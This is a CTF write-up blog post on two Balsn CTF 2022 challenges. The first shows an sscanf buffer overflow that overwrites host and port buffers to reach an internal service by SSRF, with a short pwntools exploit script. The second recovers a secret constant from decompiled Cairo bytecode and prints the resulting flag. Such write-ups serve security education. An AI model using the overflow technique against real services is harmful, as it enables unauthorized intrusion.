 ```yaml
---
layout: post
title:  "Balsn CTF 2022 Writeup"
date:   2022-09-09
categories: ctf
description: from reversing cairo bytecode to bof lead to ssrf
tags: CTF
---
```


<img src="/images/balsnctf2022/logo.png" />

I played balsnCTF last week and solve several challenge, in this post I will only cover 
Pwn and some smartcontract challenge

List Challenge:
<ul>
    <h3>PWN</h3>
    <li>Flag Market 1</li>
    <h3>SmartContract</h3>
    <li>Cairo Reverse</li>
</ul>


# Flag Market 1
<pre>
Do you love flags?
Try to buy some!
nc flag-market-us.balsnctf.com 19091 or
nc flag-market-sin.balsnctf.com 19091 or
nc flag-market-uk.balsnctf.com 19091

Note: Distributed file is in challenge Flag Market 1
https://balsnctf-challenges-2022.s3.amazonaws.com/flag_market_1/234b79b0adee52c9402019214038dce9.zip
</pre>

### Identify The Vulnerability

We were given several files, from docker file to source code and a Makefile

first I started check the `flag_market.c` which I found a buffer overflow vulnerability on `connection_handler`

{% highlight C %}
void connection_handler(int sock_fd)
{
    char request[MAX_REQ_BUF] = {};
    char method[MAX_BUF] = {};
    char path[MAX_BUF] = {};
    char port[MAX_BUF] = {};
    char host[MAX_BUF] = {};
    size_t n = 0;
    size_t reqLen = 0;

    connection_sock = sock_fd;
    signal(SIGALRM, exception_handler);
    signal(SIGABRT, exception_handler);
    alarm(TIMEOUT);

    snprintf(host, MAX_BUF, "%s", BK_HOST);
    snprintf(port, MAX_BUF, "%d", BK_PORT);

    reqLen = read_input(sock_fd, request, MAX_REQ_BUF);

    n = sscanf(request, "%s /%s HTTP/1.1", method, path); 
    if (n != 2)
        snprintf(path, MAX_BUF, "500");

    route(sock_fd, host, port, method, path, reqLen, request);

    close(sock_fd);
    exit(0);
}
{% endhighlight %}

the `sscanf()` can trigger buffer overflow since the buffer size of `request` is larger than `method` and `path` buffer, and there's no check or limitation so all the data from `request` will copied to `method` and `path` buffer 

{% highlight c %}
#define MAX_BUF 384
#define MAX_REQ_BUF 1024
{% endhighlight %}

in this situation we can overflow the buffer and overwrite the `host` and `port` which can lead to ssrf vulnerability.

next, I found that our goal is to access webservice on port `31337`
{% highlight xinetd %}
service backend-flag1
{
        disable = no
        type = UNLISTED
        wait = no
        server = /backend/run_flag1.sh
        socket_type = stream
        protocol = tcp
        user = backend
	port = 31337
        flags = IPv4 REUSE
        per_source = 5
        rlimit_cpu = 3
	rlimit_as = 64M
        nice = 18
}

{% endhighlight %}

which allow us to read our flag

{% highlight sh %}
#!/bin/bash

echo $FLAG1
{% endhighlight %}

### Setup debugging environment

in order to debug the binary, I edit a few things on `docker-compose-chal.yml`

{% highlight config %}
version: "3.5"
services:
    flag_market:
        build:
            context: ./
            dockerfile: flag_market.Dockerfile
        ports:
            - "${CHAL_PORT}:19091/tcp"

        networks:
            - flag_market_network
        security_opt:               # start changed line
            - seccomp:unconfined    # 
        cap_add:                    # 
            - SYS_PTRACE            # end of changed line

networks:
    flag_market_network:
        external: true

# CHAL_PORT=13337 docker-compose -f ./docker-compose-chal.yml -p flag_market_13337 up -d
{% endhighlight %}

next, run `deploy.sh` to install and deploy the challenge on local machine.
after `deploy.sh` executed we should have a service running on the port `13337`

<img src="/images/balsnctf2022/idle.png"/>

now, we need to install gdb on the docker container by running these command 

{% highlight sh %}
sudo docker exec -it --workdir /root --user root  flag_market_flag_market_1 bash
apt install gdb
{% endhighlight %}

so we can debug the binary on the docker it self by attaching the PID process using gdb


<img src="/images/balsnctf2022/gdb1.png"/>

now we can set breakpoint `b* route+1152`so we can determine the offset to overwrite the port and host  

<img src="/images/balsnctf2022/gdb2.png"/>

after setting up the breakpoint, we can use `pattern create` from gdb-gef to determine how long exactly to overwrite the `port` buffer and allow us to perform ssrf via buffer overflow

<img src="/images/balsnctf2022/gdb3.png"/>

as you can see from the screenshot above, we can overwrite the `port` buffer using 768 byte padding
and overwrite it with `31337` so we can access internal website. here is my exploit to perform ssrf via buffer overflow

{% highlight python %}
from pwn import *
r = remote("localhost",13337)

def solve_flag1():
    off2setPort = 768
    p = "A" * off2setPort
    p += "31337"
    r.sendline(p)    
    r.interactive()

solve_flag1()
{% endhighlight %}

# Cairo Reverse

<pre>
Simple cairo reverse

starknet-compile 0.9.1

https://balsnctf-challenges-2022.s3.amazonaws.com/cairo-reverse/1912abefd6b99c40e35a2bdaaa6f7fb2.zip
Author: ysc
</pre>

### Analysis the smartcontract file

after analysis several I found that we have to reveal the censored value from contract.cairo file
{% highlight cairo %}
# Declare this file as a StarkNet contract.
%lang starknet

from starkware.cairo.common.cairo_builtins import HashBuiltin

@view
func get_flag{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
}(t:felt) -> (res : felt):
    if t == /* CENSORED */:
        return (res=0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + t*t)
    else:
        return(res=0)
    end
end
{% endhighlight %}

I use thoth to decompile the compiled json file, Thoth (pronounced "toss") is a Cairo/Starknet analyzer, disassembler & decompiler written in Python 3. Thoth's features also include the generation of the call graph and control-flow graph (CFG) of a given Cairo/Starknet compilation artifact. you can install thoth by running these command

{% highlight sh %}
sudo apt install graphviz
git clone https://github.com/FuzzingLabs/thoth && cd thoth
pip install .
thoth -h
{% endhighlight %}

after analysis the cairo bytecode and reading the `get_flag()` function, I found the secret value 

<img src="/images/balsnctf2022/cairo1.png"/>

now we can replicate the smartcontract source code using python to get the flag

{% highlight python %}
>>> hex(0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + 0x1d6e61c2969f782ede8c3 * 0x1d6e61c2969f782ede8c3)
'0x42414c534e7b726561645f646174615f66726f6d5f636169726f7d'
>>> print(bytes.fromhex('42414c534e7b726561645f646174615f66726f6d5f636169726f7d').decode('utf-8'))
BALSN{read_data_from_cairo}
{% endhighlight %}


